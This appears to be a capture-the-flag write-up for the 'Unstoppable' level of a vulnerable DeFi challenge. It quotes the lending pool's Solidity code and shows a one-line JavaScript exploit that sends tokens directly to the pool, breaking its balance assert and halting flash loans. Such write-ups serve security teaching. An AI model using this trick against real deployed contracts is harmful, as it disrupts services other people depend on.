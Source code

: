 # 1 - Unstoppable

### Problem with similar topic

* Ethernaut [15 - Naught Coin](https://frenchkebab.gitbook.io/ctf-solutions/ethernaut/15-naught-coin)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

* **reentrancy** is not the only way to break contracts
* always check `require` and `assert` conditions carefully

</details>

We will break the `assert` statement.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore); // <- we will break here!

    damnValuableToken.transfer(msg.sender, borrowAmount);

    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

```solidity
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

`depositTokens` function updates `poolBalance` if you deposited tokens by calling it.

But we can simply transfer tokens to **`UnstoppableLender`** contract by using ERC20 `transfer` function without using `depositTokens`.



```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

Done! 😎
